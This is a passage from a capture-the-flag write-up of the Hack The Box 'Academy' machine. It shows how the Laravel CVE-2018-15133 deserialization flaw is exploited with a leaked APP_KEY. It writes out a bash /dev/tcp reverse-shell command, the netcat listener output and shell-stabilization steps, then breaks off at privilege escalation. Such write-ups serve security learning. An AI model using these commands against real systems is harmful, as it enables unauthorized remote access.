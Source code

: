 We also realized that we are unable to decode the APP_KEY that we have obtained. 

![Decoding APP_KEY](https://github.com/joelczk/writeups/blob/main/HTB/Images/academy/decode_app_key.PNG)

## Exploit
### CVE-2018-15133
At the same time, we also realize that this website might be vulnerable to [CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133), where we can carry out an RCE due to an unserialize call on a potentially untrusted X-XSRF-TOKEN value as we are able to obtain the APP_KEY. 

Using the script from [here](https://github.com/aljavier/exploit_laravel_cve-2018-15133), we are able to exploit CVE-2018-15133 to spawn an interactive shell. 

![Interactive shell spawned from exploit code](https://github.com/joelczk/writeups/blob/main/HTB/Images/academy/interactive_shell.PNG)

### Obtaining a reverse shell

First, we will try to obtain a reverse shell using ```/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.5/3000 0>&1"``` on the interactive shell. Afterwards, we will try to stabilize our reverse shell

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000                                                                   1 ⚙
listening on [any] 3000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.215] 60650
bash: cannot set terminal process group (928): Inappropriate ioctl for device
bash: no job control in this shell
www-data@academy:/var/www/html/htb-academy-dev-01/public$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ic$ python3 -c 'import pty; pty.spawn("/bin/bash")'      
www-data@academy:/var/www/html/htb-academy-dev-01/public$ export TERM=xterm
export TERM=xterm
www-data@academy:/var/www/html/htb-academy-dev-01/public$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@academy:/var/www/html/htb-academy-dev-01/public$
```

### Privilege escalation to cry0l1t3
We realize that the user flag is found in the ```/home/cry0l1t3``` directory, but we do not have the relevant permissions to read the files. Hence, we would now have to find the credentials for the user ```cry0l1t3``` so that we can elevate our privilges to the ```cry0l1t3``` user to read the user flag.
